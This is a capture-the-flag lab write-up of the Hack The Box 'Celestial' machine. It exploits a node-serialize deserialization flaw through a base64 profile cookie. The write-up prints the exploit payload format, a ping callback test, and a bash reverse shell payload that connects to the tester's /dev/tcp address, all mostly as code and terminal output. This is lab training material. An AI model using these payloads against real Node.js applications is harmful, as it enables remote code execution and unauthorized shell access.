

# 10 - Node JS


# Cookie
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial]
└──╼ $ curl 10.10.10.85:3000 -v
*   Trying 10.10.10.85:3000...
* Connected to 10.10.10.85 (10.10.10.85) port 3000 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.85:3000
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Thu, 22 Jul 2021 08:56:33 GMT; HttpOnly
< Content-Type: text/html; charset=utf-8
< Content-Length: 12
< ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
< Date: Thu, 22 Jul 2021 08:41:33 GMT
< Connection: keep-alive
< 
* Connection #0 to host 10.10.10.85 left intact
<h1>404</h1>
```


# Decoded cookie


# Request with cookies


# node-serialize module


# Deserialization vulnerability in node-serialize module
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial/exploit]
└──╼ $ searchsploit node-serialize
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Node.JS - 'node-serialize' Remote Code Execution                                                                                                            | linux/remote/45265.js
Node.JS - 'node-serialize' Remote Code Execution (2)                                                                                                        | nodejs/webapps/49552.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial/exploit]
└──╼ $ searchsploit -m linux/remote/45265.js
```

# Payload
```js
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial/exploit]
└──╼ $ cat 45265.js 
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
console.log(payload); //don't forget to change this line 
┌─[user@parrot]─[10.10.14.18]─[~/htb/celestial/exploit]
└──╼ $ node 45265.js 
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

I changed the last line from `unserialize` to `console.log(payload)` because I just want the payload.

```json
profile={"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

username is a parameter that gets printed to the script, after execution we also want the output.


# Error 


After sending the base64 encoded the json payload we got `An error  occured...invalid username type`. This error doesn't look like a library error but some logic error. The server can't display the output. Let's try to ping ourselves to see if the code gets executed but cannot be displayed.


```json
profile={"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 1 10.10.14.18', function(error, stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```


# Ping request from the server


Our assumption turns out to be correct, our malicious code is executed but the output cannot be displayed because the server simply doesn't  like the username.

# Reverse shell payload

```json
profile={"username":"_$$ND_FUNC$$_function (){require('child_process').exec('bash -c \"bash -i >& /dev/tcp/10.10.14.18/4444 0>&1\"', function(error, stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```


